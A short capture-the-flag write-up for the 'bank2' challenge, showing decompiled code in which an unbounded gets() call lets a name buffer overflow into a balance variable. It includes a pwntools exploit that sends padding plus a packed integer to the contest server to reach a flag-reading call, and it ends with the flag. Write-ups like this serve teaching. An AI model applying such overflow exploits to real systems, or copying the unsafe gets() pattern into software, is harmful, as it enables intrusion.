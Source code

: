 ## bank2 (100 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30203

author: xikhud
```

Decompile `bank2` with IDA:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  Register();
  puts("[+] Good bye!");
  return 0;
}
```

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 420420 )
    getFlag();
}
```

```cpp
void getFlag()
{
  system("cat flag.txt");
}
```

We exploit buffer overflow to overwrite `balance` with 420420 to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30203)
conn.sendlineafter('name:', b'a' * 64 + p32(420420))
conn.interactive()
```

**Flag:** `HCMUS-CTF{little_endian_is_fun}`

